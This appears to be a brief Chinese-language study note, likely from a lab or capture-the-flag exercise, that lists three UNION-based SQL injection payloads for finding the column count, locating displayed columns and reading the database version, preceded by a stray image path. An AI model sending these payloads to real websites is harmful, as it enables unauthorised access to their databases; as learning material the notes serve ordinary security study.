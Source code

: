 ①找到列数
```SQL
'ORDER BY 2--+
```
②找到显示位
```SQL
'UNION SELECT 'ASDAS',NULL--+
```
③取版本号
```SQL
'UNION SELECT @@version
```


